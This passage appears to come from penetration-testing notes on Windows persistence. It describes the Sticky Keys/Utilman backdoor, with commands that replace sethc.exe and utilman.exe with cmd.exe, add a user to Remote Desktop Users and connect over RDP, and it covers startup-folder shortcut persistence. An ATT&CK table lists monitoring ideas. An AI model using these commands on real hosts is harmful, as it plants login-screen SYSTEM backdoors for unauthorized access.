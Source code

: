 Both the `Sticky Keys` (`sethc.exe`) and `Utilman` (`utilman.exe`) utilities
can be launched at the login screen before authentication as
`NT AUTHORITY\SYSTEM`. A graphical access to the host login prompt is needed in
order to make use of this backdoor mechanism. Indeed, to remotely leverage
persistence through `Sticky Keys` or `Utilman`:
  - `RDP` must be enabled and the `RDP` service accessible remotely over the
    network. Refer to the `Activate RDP` and `Windows Firewall` sections of the
    present note to active `RDP` and configure a rule allowing inbound `RDP`
    access on the local host.
  - The `RDP`'s `Network Level Authentication (NLA)` security mechanism must be
    deactivated if no valid credentials are known.

To access a host remotely in `RDP`, the user used must have the
`SeRemoteInteractivePrivilege`, granted by default to the members of the
`Remote Desktop Users` local group of the host. The following
`net localgroup` commands can be used to add the specified user in this group:

```bash
net localgroup "Remote Desktop Users" <USERNAME> /add
net localgroup "Utilisateurs du Bureau à distance" <USERNAME> /add

# Connect in RDP from Linux
rdesktop -k fr -g 90% -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' <HOSTNAME | IP>
```

The `sethc.exe` is launched after pushing the `Maj` key five times and the
`utilman.exe` can be started using the `Win + U` keys.

```bash
copy %ComSpec% %SystemRoot%\System32\sethc.exe
copy %ComSpec% %SystemRoot%\System32\utilman.exe
```

### Windows startup folders

| ATT&CK | Persistence type | Privilege level required | Monitoring possibilities |
|--------|------------------|--------------------------|--------------------------|
| [T1547.001](https://attack.mitre.org/techniques/T1547/001/) | Code execution. | User or `Administrator` depending on the `startup folders` targeted. | Non default specific `DACL` on the `startup folders` files to raise alert upon file creation. <br><br> Periodic review / validation of the `startup folders` entries. <br><br> Windows `API` monitoring. |

The Windows `startup folders` contains `shortcut links` (`.lnk`) that will be
executed upon any user log in (`All Users` `start up` folder) or when the
associated user logs in (`Current Users` `start up` folders).

The `startup folders` are located at the following paths:

```bash
# All Users startup folder.
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

# Current Users startup folders.
C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

A `shortcut link` file can be created manually through the `Windows Explorer`:

```
# In the folder in which the shortcut link should be created:
Right click -> New -> Shortcut -> Enter the <BINARY_PATH> and eventual <ARGUMENTS> -> Next -> Enter the shortcut link file name <LNK_FILE_NAME> -> Finish

# The appearance and comportment of the created shortcut link can be customized:
Right click on the shortcut link file -> Properties
  -> Eventually specify a custom folder path as needed -> Start in: <DIRECTORY_FULL_PATH>
  -> Run: Minimized
  -> Change Icon... -> Select icon displayed for the file.
```
